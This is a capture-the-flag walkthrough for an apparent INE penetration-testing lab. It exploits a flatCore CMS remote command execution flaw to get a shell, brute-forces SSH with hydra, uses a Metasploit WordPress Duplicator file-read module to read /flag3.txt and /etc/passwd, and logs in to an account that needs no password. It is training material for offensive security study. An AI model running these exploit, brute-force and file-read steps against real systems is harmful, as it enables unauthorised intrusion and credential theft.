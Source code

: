 ## Host & Network Penetration Testing: Exploitation CTF 1


### Flag 1: Identify and exploit the vulnerable web application running on target1.ine.local and retrieve the flag from the root directory. The credentials admin:password1 may be useful.

Using:
```
whatweb target1.ine.local
```
We are able to identify various pieces of information, including the CMS used to construct the website.
```
flatCore
```
```
serchsploit flatCore
searchsploit -m 50262
```
We find and copy the original authenticated remote command execution exploit.
```
python3 50262.py http://target1.ine.local admin password1
```
Using the command, we obtain a remote shell as the user www-data.

Navigating to root directory, we find the first flag.
```
cat /flag1.txt
```

### Flag 2: Further, identify and compromise an insecure system user on target1.ine.local.

Investigating the system and in particular the home folder, we discover the name of an active user:
```
iamweakuser
```
Enumerating other services with Nmap:
```
nmap -sS -sV -T4 target1.ine.local
```
We discover that ssh port is open, so we can try a brute-force attack on ssh service with the user just found.
```
hydra -l iamaweakuser -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://target1.ine.local
```
Hydra discover the correct password:
```
angel
```
```
ssh iamweakuser@target1.ine.local
```
Enumerating his home, we find the second flag.


### Flag 3: Identify and exploit the vulnerable plugin used by the web application running on target2.ine.local and retrieve the flag3.txt file from the root directory.

Using:
```
whatweb target2.ine.local
```
We are not able to discover anything useful.

We try with Nmap:
```
namp -sS -sV -p80 target2.ine.local --script http-wordpress-enum
```
and with Metasploit:
```
use auxiliary/scanner/http/wordpress_scanner
```
Both of them return us the duplicator version 1.3.26 plugin.
```
searchsploit duplicator
```
There is a Metasploit module that we can use.
```
use auxiliary/scanner/http/wp_duplicator_file_read
set RHOSTS target2.ine.local
set FILEPATH /flag3.txt
```
This way, we find the third flag.


### Flag 4: Further, identify and compromise a system user requiring no authentication on target2.ine.local.

By employing the same exploit but through a distinct path, we can identify additional users.
```
set FILEPATH /etc/passwd
iamacrazyfreeuser
```
We can attempt to log in by following the instructions provided in the task, utilizing the SSH service without the need for a password.
```
ssh iamacrazyfreeuser@target2.ine.local
```
Gained unauthorized access to the target machine. The final flag is located within the user’s home directory.

